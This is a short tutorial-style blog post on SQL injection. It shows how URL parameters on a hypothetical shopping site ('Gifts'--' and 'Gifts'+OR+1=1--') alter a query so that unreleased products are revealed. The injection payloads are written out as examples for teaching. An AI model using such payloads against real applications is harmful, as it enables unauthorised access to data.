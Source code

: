 ```yaml
---
layout: blog
type: blog
title: Web Application Security - SQL Injection
permalink: blog/web-sqli
# All dates must be YYYY-MM-DD format!
date: 2021-11-15
labels:
  - databases
  - sqlmap

---
```


# Vulnerabilities

## Retrieving hidden data

 Consider a shopping application that displays products in different categories. When the user clicks on the Gifts category, their browser requests the URL:

```txt
https://insecure-website.com/products?category=Gifts
```

This causes the application to make an SQL query to retrieve details of the relevant products from the database:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1 
```

The restriction released = 1 is being used to hide products that are not released. For unreleased products, presumably released = 0.

```txt
https://insecure-website.com/products?category=Gifts'--
```

This results in the SQL query:

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1 
```

 Going further, an attacker can cause the application to display all the products in any category, including categories that they don't know about:

```txt
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

This results in the SQL query:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1 
```
